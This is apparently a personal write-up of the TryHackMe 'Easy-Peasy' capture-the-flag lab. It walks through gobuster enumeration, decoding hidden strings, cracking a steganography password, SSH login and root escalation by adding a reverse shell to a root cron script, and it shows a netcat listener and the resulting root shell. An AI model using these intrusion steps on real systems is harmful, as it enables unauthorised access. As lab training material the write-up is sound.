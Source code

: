 ```yaml
---
layout: post
title: Writeup - THM - Easy-Peasy
description: "Walkthrough of Easy-Peasy of TryHackme"
tags: [TryHackeMe, EasyPeasy, Hacking, pwned, nmap, gobuster, steganography, cronjob]
author: Fr3akazo1d!
---
```

# Walkthrough

Used gobuster 
- gobuster dir -u http://10.10.201.81 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster-output.txt

found hidden directory

after researching the site, nothing interesting was found on the website. 

But for the answer of TryHackMe, something has to be on the site. 
So i keep digging around on the webserver. 

I tried another gobuster run on the hidden directory. 

Found another directory. 
Was another picture and then i checked the source code. In the Source code there was a hidden paragraph:  
```html
</head>
<body>
<center>
<p hidden>Z**********************=</p>
</center>
</body>
</html>
```


No i have my first flag, the code was Base64. 
we can decode the base64 string in the terminal:
```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ echo "************************" | base64 -d 
flag{f********g}
```

After a lot of seraching on Port 80 on the Server, i was swtiching to the other Webserver witch is running on port 65524. 


On this webserver i also run a gobuster run, and found robots.txt file. 
looked inside the robots.txt file and found a hash. 

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```


The hash was crackable with only one website. after decypting the hash we got our second flag. 

On The apache website there is the third flag locatet, we have to look closely. :)

For the hidden directory. i was going through the source code of the apache server. i found an interessting part with a string who looks like a hash:
<p hidden>its encoded with ba....:O**********************u</p>

i was triying to decrypt the hash with base64, but it was no base64 hash. I tried different ways till i found the right base decoder. 
The string gave me the name of the hidden directory. 

http://10.10.249.230:65524/n***************r/

on this page we found another hash. Whitch we have to decrpt. 
Also a picture was provided on this site. 

Downloaded the picture and started brute force attack on the picture with the txt file which we have donwloaded from tryhackem. 

a other way is to crack the password with hashcat, as a hint from tryhackme. the has is GOST.

The txt file was containg the password, and extracted a new text file where a username and password was stored. 
```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ s********** binarycodepixabay.jpg easypeasy.txt                                                               1 ⨯
S********** 2.0.9 - (https://github.com/Paradoxis/s**********)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: m******************b
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
m******************b
```

```sh
bat binarycodepixabay.jpg.out 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: binarycodepixabay.jpg.out
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ username:b****g
   2   │ password:
   3   │ 01101001 ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** *
       │ ******* ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** **
       │ ****** ******** ******** 01111001
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

The password was decoded in binary. after decoding we have now the password for the user to the target. 

```sh
i**************************y
```

We can now login with the user and read the user.txt file. 

```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$  ssh 10.10.249.230 -p 6498 -l b****g -p i**************************y
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized        **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
b****g@10.10.249.230's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
b****g@kral4-PC:~$ ls
user.txt
b****g@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
s**t{a**************y}
```

After some researching i came a cross the cronjob. 


```sh
b****g@kral4-PC:/$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

on cronjob is running as root. I added a reverse shell to the file and a listener on my machine. 


```sh
b****g@kral4-PC:/$ nano var/www/.mysecretcronjob.sh 
```


# root shell

After some seconds i got a root shell. now we can read the root.txt file


```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.9.170.39] from (UNKNOWN) [10.10.249.230] 53294
bash: cannot set terminal process group (1509): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# cat root.txt  
cat root.txt 
flag{6******************************5}
root@kral4-PC:~# 
```

summary

This box was a lot enumeration with gobuster. Sometimes i was stucked at this. I tried some different ways but i was really fustrated that i read another writeup for the room. 
